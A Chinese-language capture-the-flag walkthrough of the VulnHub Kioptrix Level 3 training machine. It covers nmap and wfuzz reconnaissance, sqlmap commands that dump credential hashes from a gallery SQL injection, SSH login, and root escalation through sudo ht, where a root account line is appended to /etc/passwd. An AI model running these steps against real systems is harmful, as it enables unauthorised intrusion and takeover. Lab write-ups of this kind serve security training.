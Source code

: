 # Kioptrix3-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/kioptrix-level-12-3,24/

**Description**

It's been a while since the last Kioptrix VM challenge. Life keeps getting the way of these things you know.

After the seeing the number of downloads for the last two, and the numerous videos showing ways to beat these challenges. I felt that 1.2 (or just level 3) needed to come out. Thank you to all that downloaded and played the first two. And thank you to the ones that took the time to produce video solutions of them. Greatly appreciated.

As with the other two, this challenge is geared towards the beginner. It is however different. Added a few more steps and a new skill set is required. Still being the realm of the beginner I must add. The same as the others, there’s more then one way to “pwn” this one. There’s easy and not so easy. Remember… the sense of “easy” or “difficult” is always relative to ones own skill level. I never said these things were exceptionally hard or difficult, but we all need to start somewhere. And let me tell you, making these vulnerable VMs is not as easy as it looks…

Important thing with this challenge. Once you find the IP (DHCP Client) edit your hosts file and point it to kioptrix3.com

Under Windows, you would edit C:\Windows\System32\drivers\etc\hosts to look something like this:

```
# localhost name resolution is handled within DNS itself.
#   127.0.0.1 localhost
#   ::1 localhost127.0.0.1 static3.cdn.ubi.com

192.168.1.102 kioptrix3.com
```

Under Linux that would be /etc/hosts

There’s a web application involved, so to have everything nice and properly displayed you really need to this.

Hope you enjoy Kioptrix VM Level 1.2 challenge.

452 Megs

MD5 Hash : d324ffadd8e3efc1f96447eec51901f2

Have fun

Source: http://www.kioptrix.com/blog/?p=358

**知识点**
- SQL 注入
- ht 提权

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.146` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.146
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/2.png)

SSH 和 web,从 web 先入手,先按照要求修改 hosts 文件,访问 web 看看
```bash
echo "192.168.141.146 kioptrix3.com" >> /etc/hosts
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/3.png)

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/4.png)

看上去是用 lotusCMS 搭建的,先目录扫描看下
```
wfuzz -w /usr/share/wfuzz/wordlist/general/common.txt http://kioptrix3.com/FUZZ | grep 301
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/5.png)

有个 phpmyadmin,访问看看

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/6.png)

2.11.3 版本有个 CVE-2009-1151,实际测试并不能利用成功,没办法了,从其他地方入手吧

---

# 中期-漏洞利用

注意到主页下面有个链接指向 `http://kioptrix3.com/gallery/`

发现这里可以进行排序,对 id 参数测试 SQL 注入

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/7.png)

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/8.png)

这里可能存在 SQL 注入,直接 Sqlmap 跑起来
```
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 --current-db
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery --tables
sqlmap -u http://kioptrix3.com/gallery/gallery.php?id=1%27 -D gallery -T dev_accounts --dump
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/9.png)

```
| 1  | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 (Mast3r)   |
| 2  | loneferret | 5badcaf789d3d1d09794d8f021f40f0e (starwars) |
```

可以看到跑出2个账号组合,测试了一下，不能登录 web,想到之前扫出的 SSH,试了下登录成功,2个都可以登录

---

# 后期-提权

dreg 账号实在是没什么可利用的，loneferret 账号下有一些利用的点

```
sudo -l
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/10.png)

ht 是一个文本编辑器,尝试用它来提权
```
sudo ht /etc/passwd
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/11.png)

提示我需要设置 xtrem-color
```
export TERM=xterm-color
sudo ht /etc/passwd
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/12.png)

实际上这里我是一脸懵逼的,这玩意咋整啊

按 F3,打开文件,输入 /etc/passwd ,回车

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/13.png)

最末尾加上
```
test:sXuCKi7k3Xh/s:0:0::/root:/bin/bash
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/14.png)

按 F10,退出,记得保存
```
su test
toor
```

![image](../../../../../assets/img/安全/实验/VulnHub/Kioptrix/Kioptrix3/15.png)

提权成功,感谢 Kioptrix Team 制作靶机
